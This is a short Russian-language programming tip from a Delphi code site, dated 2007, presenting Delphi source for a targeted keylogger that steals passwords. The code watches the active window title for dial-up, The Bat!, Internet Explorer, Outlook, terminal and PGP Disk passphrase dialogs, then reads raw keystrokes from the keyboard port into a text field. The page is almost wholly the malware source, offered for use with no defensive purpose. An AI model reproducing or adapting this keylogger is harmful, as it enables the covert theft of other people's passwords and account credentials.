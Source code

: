 ```yaml
---
Title: Способ высосать пароли из едитов определенных программ
Date: 01.01.2007
---
```



Способ высосать пароли из едитов определенных программ
======================================================

::: {.date}
01.01.2007
:::

Вот хороший способ высосать пароли из едитов определенных программ -
Достоинством метода является отсутствие необходимости читать длинющие
keylog - записи, тк кейлоггинг ведется только в интересующих нас окнах
(Terminal, DUN, etc...).

    unit ksf;
    interface
    uses windows,Controls,Forms, StdCtrls, Classes, ExtCtrls;
     
    type
     Tf1 = class(TForm)
       t1: TTimer;
       m1: TMemo;
       procedure t1t(Sender: TObject);
     end;
     
    var
    f1: Tf1;
    okey:byte;
    KAr:array[1..88] of pchar=('-Esc-','1','2','3','4','5','6','7','8','9',
    '0','-','=','bsp','-Tab-','q','w','e','r','t','y','u','i','o','p',
    '[',']','#13','-Ctrl-','a','s','d','f','g','h','j','k','l',';','''','`',
    '-Shift-','\','z','x','c','v','b','n','m',',','.','/','-Shift-','*',
    'Alt',' ','CL','F1','F2','F3','F4','F5','F6','F7','F8','F9','F10','NL',
    'SL','-Home-','-Up-','-PgUp-','-','-Left-','-*5*-','-Right-','+',
    '-End-','-Down-','-PDn-','-Ins-','-Del-','','','-Unk-','F11','F12');
     
    implementation
    {$R *.DFM}
     
    procedure Tf1.t1t(Sender: TObject);
    var
    key:byte;
    cap0:pchar;
    cap1:string;
    begin
    getmem(cap0,255);
    GetWindowText(GetforegroundWindow,cap0,255); //title активного окна
    cap1:=cap0;
    freemem(cap0);
    if(pos('Connect To',cap1)< > 0)or        //DialUP
      (pos('Установка связи',cap1)< > 0)or   //DialUP
      (pos('Вход в систему',cap1)< > 0)or    //DialUP
      (pos('EType Dialer',cap1)< > 0)or      //DialUP
      (pos('p Networking',cap1)< > 0)or      //DialUP
      (pos('p Connection',cap1)< > 0)or      //DialUP
      (pos('Connecting to',cap1)< > 0)or     //DialUP
      (pos('Connessione a',cap1)< > 0)or     //DialUP
      (pos('Edit User - ',cap1)< > 0)or      //The Bat!
      (pos('Мастер подключения к Интернету',cap1)< > 0)or //MSIE,MSOutlook,etc
      (pos('сетевого пароля',cap1)< > 0)or   //MSIE
      (pos('Свойства: ',cap1)< > 0)or        //MSOutlook
      (pos('Вход - ',cap1)< > 0)or           //MSOutlook
      (pos(' - Receiving mail',cap1)< > 0)or //The Bat!
      (pos('Окно терминала',cap1)< > 0)or    //Terminal
      (pos('Passphrase',cap1)< > 0)          //PGP Disk
    then
    begin
     asm
      in al,60h                 // Читаем из 60h порта нажатую кнопку в al
      mov key,al                // Перемещаем код ключа из al в Key
     end;
     if okey< > key then
     begin
      okey:=key;
      if key< =88 then           // Ловим Key_Down код
      m1.text:=m1.text+kAr[Key]  // И берем по этому коду из массива строку
     end;
    end;
    end;
     
     

<https://delphiworld.narod.ru/>

DelphiWorld 6.0
